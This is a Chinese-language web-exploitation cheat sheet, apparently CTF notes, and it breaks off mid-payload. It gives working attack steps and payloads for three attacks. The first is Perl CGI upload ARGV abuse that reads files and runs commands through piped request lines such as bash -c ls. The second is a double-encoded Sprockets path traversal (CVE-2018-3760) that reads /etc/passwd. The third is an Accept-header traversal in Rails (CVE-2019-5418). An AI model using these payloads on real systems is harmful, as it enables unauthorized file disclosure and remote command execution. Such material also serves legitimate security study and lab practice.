

## **perl**
```
/cgi-bin/file.pl

一个文件上传页面，
上传后回显。

代码类似使用：
use strict;
use warnings; 
use CGI;
my $cgi= CGI->new;
if ( $cgi->upload( 'file' ) ) { 
    my $file= $cgi->param( 'file' );
     while ( <$file> ) { print "$_"; }
}
```

#### **1、文件读取**
文件上传抓包，修改包加入ARGV部分(将上传的文件类型及文件内容处复制再粘贴一行，将filename去掉，然后内容填入ARGV)
再url后面加上路径，即可读取。



#### **2、命令执行**
文件上传抓包，修改包加入ARGV部分(将上传的文件类型及文件内容处复制再粘贴一行，将filename去掉，然后内容填入ARGV)
```
POST /cgi-bin/file.pl?/bin/bash%20-c%20ls${IFS}/| HTTP/1.1


/cgi-bin/file.pl?ls%20-l%20/%20|
```


^
## **Ruby On Rails 路径穿越漏洞（CVE-2018-3760）**
Ruby On Rails在开发环境下使用Sprockets作为静态文件服务器，Ruby On Rails是著名Ruby Web开发框架，Sprockets是编译及分发静态资源文件的Ruby库。

Sprockets 3.7.1及之前版本中，存在一处因为二次解码导致的路径穿越漏洞，攻击者可以利用%252e%252e/来跨越到根目录，读取或执行目标服务器上任意文件。

直接访问IP/assets/file:%2f%2f/etc/passwd，将会报错，因为文件/etc/passwd不在允许的目录中：
在上方的报错中随意选择一个路径利用../返回上一级，成功实现任意文件读取

payload：:8080/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/flag


## **Ruby on Rails 路径穿越与任意文件读取漏洞（CVE-2019-5418）**
在控制器中通过render file形式来渲染应用之外的视图，且会根据用户传入的Accept头来确定文件具体位置。我们通过传入\`Accept: ../../../../../../../../etc/passwd

访问 /robots ，修改 Accept: ../../../../../../../../etc/passwd{{